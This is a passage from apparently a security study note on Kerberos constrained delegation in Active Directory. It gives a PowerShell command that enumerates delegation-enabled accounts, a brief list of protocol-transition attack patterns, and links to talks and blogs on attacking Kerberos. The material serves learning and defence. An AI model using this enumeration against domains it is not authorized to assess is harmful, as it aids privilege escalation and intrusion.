    Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
    ```
- Attack Patterns

  - Protocol Transition used in SSO
  - Delegation occurs not only for the specific service but for any service running under the same account. No validation for the SPN specified.
  - <https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/>

## References

- <https://docs.microsoft.com/en-us/windows/desktop/secauthn/authentication-portal>
- <https://docs.microsoft.com/en-us/windows/desktop/secauthn/microsoft-kerberos>
- <https://drive.google.com/open?id=1eaQki6QuqfbHqMfkaKH66z2OAnI0lV0H>
- <https://www.tarlogic.com/en/blog/how-kerberos-works/<>
- [Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://www.youtube.com/watch?v=HHJWfG9b0-E)

### New References

- [Attacking Microsoft Kerberos Kicking the Guard Dog of Hades Tim Medin](https://www.youtube.com/watch?v=PUyhlN-E5MU ) 
- <https://blog.redforce.io/oh-my-kerberos-do-not-get-kerberoasted/>
- <https://www.tarlogic.com/en/blog/how-kerberos-works/>
- <https://www.tarlogic.com/en/blog/how-to-attack-kerberos/>
